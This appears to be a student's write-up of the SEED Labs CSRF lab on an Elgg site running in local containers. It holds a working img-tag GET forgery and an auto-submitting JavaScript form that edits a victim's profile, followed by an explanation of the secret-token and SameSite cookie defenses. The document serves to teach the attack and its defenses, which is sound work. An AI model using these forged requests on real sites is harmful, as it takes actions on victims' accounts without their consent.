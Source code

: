 # Cross-Site Request Forgery (CSRF) Attack Lab
- a CSRF attack involves a victim user, a trusted site, and a malicious site, the victim user holds an active session with a trusted site while visiting a malicious site. The malicious site injects an HTTP request for the trusted site into the victim user session, causing damages
- web application used: `Elgg`
- topics
    - CSRF attack
    - CSRF countermeasures: Secret token and Same-site cookie
    - JavaScript and Ajax

## Lab Setup
- the Elgg container (`10.9.0.5 www.seed-server.com`)
- the attacker container (`10.9.0.105 www.attacker32.com`)
- DNS configuration
    ```
    10.9.0.5 www.seed-server.com
    10.9.0.5 www.example32.com
    10.9.0.105 www.attacker32.com
    ```

## Task 1: Observing HTTP Request
- use HTTP Header Live on Firefox

## Task 2: CSRF Attack using GET Request
- use Alice's and Samy's account, use CSRF to make Alice add Samy to her Elgg friend list
- login as Samy, add Charlie as friend, use HTTP Header Live to see the request
    - URL (duplicated parameters are removed) `http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1707056081&__elgg_token=-RraUFTlunG52v081kwsbw`
- requirement: not use JS code, the attack should succeed as soon as Alice visits the page
- `__elgg_ts` and `__elgg_token` are actually used to defeat CSRF, in this lab, they are disabled
- so, the link to add Samy to friend list is `http://www.seed-server.com/action/friends/add?friend=59`, `59` is the id of Samy, we can figure this out by use another account to add Samy and inspect the request URL
- when Alice clicks a link from Samy, she visits `www.attacker32.com`, to trigger a GET request to Elgg, use an image tag `<img>` in `www.attacker32.com`, add the following content to `Labsetup/attacker/addfriend.html`
    - `<img src="http://www.seed-server.com/action/friends/add?friend=59" />`
- when Alice logged into Elgg, and visits `www.attacker32.com/addfriend.html`, it triggers a GET request to Elgg, and add Samy to Alice's friend list

## Task 3: CSRF Attack using POST Request
- use CSRF to edit Alice's profile to `Samy is my Hero`
- inspect the HTTP request when clicking save on the profile edit page, it is a POST request, the data in request body is `name=Samy$description=<p>123456</p>&guid=59` (I removed some parameters that is not used), the URL is `http://seed-server.com/samy/edit`
- by adding Alice to friend list, we can get Alice's guid from the request URL, its 56, so we need to construct a POST request with data `name=Alice$description=<p>Samy is my Hero</p>&guid=56`, and the URL should be `http://seed-server.com/action/profile/edit`
- we can set these values in the given `editprofile.html`, in this file it modifies `Brief description`, instead of `About Me`
    ```
    <script type="text/javascript">
    function forge_post() {
        var fields;

        fields += "<input type='hidden' name='name' value='Alice'>";
        fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero'>";
        fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
        fields += "<input type='hidden' name='guid' value='56'>";

        var p = document.createElement("form");
        p.action = "http://www.seed-server.com/action/profile/edit";
        p.innerHTML = fields;
        p.method = "post";

        document.body.appendChild(p);
        p.submit();
    }
    window.onload = function() { forge_post();}
    </script>
    ```

- Question: what if we want to modify the profile of all users who visits the malicious site
    - we need to dynamically get the name and guid of the victims
    - use `<iframe src="http://www.seed-server.com">` to load Elgg inside the attacker's site, if we success, we can put the script inside the iframe, and use `elgg.session.user.name` and `elgg.session.user.guid` to get user name and guid
    - however, the Elgg website cannot be loaded in the iframe, the error information is `"To protect your security, www.seed-server.com will not allow Firefox to display the page if another site has embedded it. To see this page, you need to open it in a new window"`, there might be a countermeasure implemented in the Elgg application

## Defense
- Initially, most applications put a secret token in their page, and by checking whether the token is present in the request or not, they can tell whether a request is a same-site request or a cross-site request, this is called `secret token` approach. More recently, most browsers have implemented a mechanism called `SameSite cookie`, which is intended to simplify the implementation of CSRF countermeasures

## Task 4: Enabling Elgg's Countermeasures
- web applications can embed a secret token in their pages, and all requests coming from these pages must carry this token, or they will be considered as a cross-site request, and will not have the same privilege as the same-site requests. Attacker will not be able to get this token, so their requests can be identified as cross-site requests
- in Elgg, `__elgg_token` is the secret tokens, `__elgg_ts` is a timestamp, they will be validated before processing a request
    ```
    <input type="hidden" name="__elgg_ts" value="" />
    <input type="hidden" name="__elgg_token" value="" />
    ```
    ```
    $ts = time();
    $token = elgg()->csrf->generateActionToken($ts);
    echo elgg_view('input/hidden', ['name' => '__elgg_token', 'value' => $token]);
    echo elgg_view('input/hidden', ['name' => '__elgg_ts', 'value' => $ts]);
    ```
- Elgg's security token is a md5 message digest of the site secret value (retrieved from database), timestamp, user session ID and random generated session string, the code for secret token generation in Elgg:
    ```
    public function generateActionToken($timestamp, $session_token='') {
        if(!$session_token) {
            $session_token = $this->session->get('__elgg_session');
            if(!$session_token) {
                return false;
            }
        }
        return $this->hmac
                    ->getHmac([(int) $timestamp, $session_token], 'md5')
                    ->getToken();
    }
    ```
- secret token validation: generate a md5 digest for `__elgg_ts` in the request and the session id, compare it to the `__elgg_token` in the request. Besides, check the `__elgg_ts`, ensure the token is not expired (default timeout is `2` hours)

- enable this countermeasure, and login as Alice, then visit the attacker's website, we can get an error information: "Form is missing __token or __ts fields"
    - add these 2 fields in the attacker's page, and put some random value, the attack cannot succeed, because the request cannot pass the validation
    - if we go to Alice's profile in Elgg, inspect the page elements and find the value of `__elgg_ts` and `__elgg_token`, put them into the attacker's page, then visit this page, the attack can succeed
    - in a real attack, the attacker cannot get these value, because the token is calculated from Alice's session id with a timestamp, and will only be put in the page when logging in as Alice, when visiting the attacker's page, the attacker cannot know the value of the token, and the corresponding timestamp. However, if the attacker can put a iframe (to load the Elgg's page) in the malicious page, and run a script inside, the script can get the value of `__elgg_ts` and `__elgg_token` inside the iframe, this is disabled by Elgg application, as mentioned in Task `3`

## Task 5: Experimenting with the SameSite Cookie Method
- most browsers have implemented a mechanism called SameSite cookie
- when sending out requests, browsers will check this property, and decide whether to attach the cookie in a cross-site request, a web application can set a cookie as SameSite if it does not want the cookie to be attched to cross-site requests. For example, they can mark the session ID cookie as SameSite, so no cross-site request can use the session ID, and will therefore not be able to launch CSRF attacks
- visit `10.9.0.5 www.example32.com`, 3 cookies will be set, `cookie-normal`, `cookie-lax`, and `cookie-strict`, there are 2 links on this page, link A points to a test page on `www.example32.com`, while link B points to a test page on `www.attacker32.com`, in each test page, we can send a GET or POST request back to `www.example32.com`, and we can see which cookie will be sent by the browser
    - link A
        - GET: `cookie-normal`, `cookie-lax`, `cookie-strict`
        - POST: `cookie-normal`, `cookie-lax`, `cookie-strict`
    - link B
        - GET: `cookie-normal`, `cookie-lax`
        - POST: `cookie-normal`
- conclusion: for SameCookie, there are 2 types, `Lax` and `Strict`. Cross-site request will not carry `Strict` cookies. Cross-site POST request will not carry `Lax` cookies, but cross-site GET request can carry `Lax` cookies
- in a CSRF attack, the victim visits the attacker's site, and triggers a request to the Elgg website, if the session ID cookie is marked as SameSite cookie, if it is `Strict`, the session id cookie will not be sent by the browser, and the request won't pass the validation

- How to fix the problem using SameSite cookie? In the web application, we can see there is a cookie (`Elgg=...`), we can find the place where it is set, and make it a strict SameSite cookie, then in `Csrf.php`, we can validate a request by checking whether it contains this cookie, if it doesn't, we can know the request is cross-site
